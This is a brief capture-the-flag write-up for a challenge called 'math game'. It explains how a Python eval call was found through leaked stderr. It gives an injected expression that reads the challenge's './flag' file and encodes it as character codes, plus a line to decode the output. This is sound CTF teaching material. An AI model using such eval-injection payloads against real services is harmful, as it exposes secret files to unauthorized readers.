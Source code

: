 ### math game

Simple python eval exploitation. No source code given, but stderr is redirected - simply triggering exception will show line of code with eval instruction.

```
1) '100932'.join([str(ord(x)) for x in '' + open("./flag").read()])
2) ''.join([chr(int(x)) for x in s.split('100932')])
```
